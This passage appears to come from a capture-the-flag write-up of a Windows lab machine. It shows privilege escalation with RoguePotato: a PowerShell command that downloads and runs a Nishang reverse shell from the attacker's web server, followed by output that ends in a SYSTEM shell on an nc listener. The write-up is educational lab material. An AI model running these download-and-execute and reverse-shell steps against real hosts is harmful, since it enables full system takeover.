 I’ll start a Python webserver in the directory with a [Nishang reverse
shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-
PowerShellTcp.ps1) and then update the command to have powershell download and
execute that shell:

    
    
    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -e "powershell -c iex( iwr http://10.10.14.9/shell.ps1 -UseBasicParsing )" -l 9999
    [+] Starting RoguePotato...
    [*] Creating Rogue OXID resolver thread
    [*] Creating Pipe Server thread..
    [*] Creating TriggerDCOM thread...
    [*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
    [*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
    [*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
    [*] IStoragetrigger written:102 bytes
    [*] SecurityCallback RPC call
    [*] ResolveOxid2 RPC call, this is for us!
    [*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
    [*] Client connected!
    [+] Got SYSTEM Token!!!
    [*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: powershell -c iex( iwr http://10.10.14.9/shell.ps1 -UseBasicParsing )
    [+] RoguePotato gave you the SYSTEM powerz :D
    

There’s a hit at the server:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.180 - - [08/Sep/2020 07:48:58] "GET /shell.ps1 HTTP/1.1" 200 -
    

And then a shell on `nc`:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.180.
    Ncat: Connection from 10.10.10.180:49728.
    Windows PowerShell running as user REMOTE$ on REMOTE
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\programdata>whoami
    nt authority\system
    

## IppSec Mystery

### Setup
